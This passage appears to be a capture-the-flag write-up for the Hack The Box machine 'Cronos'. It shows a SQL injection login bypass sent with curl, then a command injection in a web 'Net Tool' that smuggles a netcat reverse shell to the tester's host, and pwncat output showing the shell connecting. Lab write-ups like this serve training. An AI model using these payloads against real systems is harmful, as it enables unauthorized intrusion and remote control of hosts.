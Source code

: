 ```
cronos.htb.		604800	IN	NS	ns1.cronos.htb.
cronos.htb.		604800	IN	A	10.10.10.13

;; ADDITIONAL SECTION:
ns1.cronos.htb.		604800	IN	A	10.10.10.13

;; Query time: 88 msec
;; SERVER: 10.10.10.13#53(cronos.htb) (TCP)
;; WHEN: Sun Nov 19 20:24:58 CET 2023
;; MSG SIZE  rcvd: 131

```


### Port [80] - [Web Server]

Admin login page:

![](Cronos%20Writeup%20-%20cronos%20login%20pag.png)

No default credentials succeeded. 
#### Vulnerability Exploited

##### SQL Injection 

The username field is vulnerable to SQL injection vulnerability:

```bash
curl -i -s -k -X $'POST' \
    -H $'Host: admin.cronos.htb' -H $'Content-Length: 38' -H $'Content-Type: application/x-www-form-urlencoded' \
    --data-binary $'username=admin\'+OR+1%3d1%23&password=\'' \
    $'http://admin.cronos.htb/'
```

![](Cronos%20Writeup%20-%20Welcome%20Page.png)

##### OS Command Injection 

The Net Tool is vulnerable to OS Command Injection: 

```bash
curl -i -s -k -X $'POST' \
    -H $'Host: admin.cronos.htb' -H $'Content-Length: 109' -H $'Content-Type: application/x-www-form-urlencoded' -H $'Connection: close' \
    -b $'PHPSESSID=88kf72snjf3iuv6abh0pbhc177' \
    --data-binary $'command=ping+-c+1&host=8.8.8.8;rm+/tmp/f%3bmkfifo+/tmp/f%3bcat+/tmp/f|sh+-i+2>%261|nc+10.10.14.6+1337+>/tmp/f' \
    $'http://admin.cronos.htb/welcome.php'
```

```bash
[20:43:13] Welcome to pwncat 🐈!                                               __main__.py:164
[20:46:32] received connection from 10.10.10.13:34516                               bind.py:84
[20:46:33] 0.0.0.0:1337: upgrading from /bin/dash to /bin/bash                  manager.py:957
[20:46:34] 10.10.10.13:34516: registered new host w/ db                         manager.py:957
(local) pwncat$

```
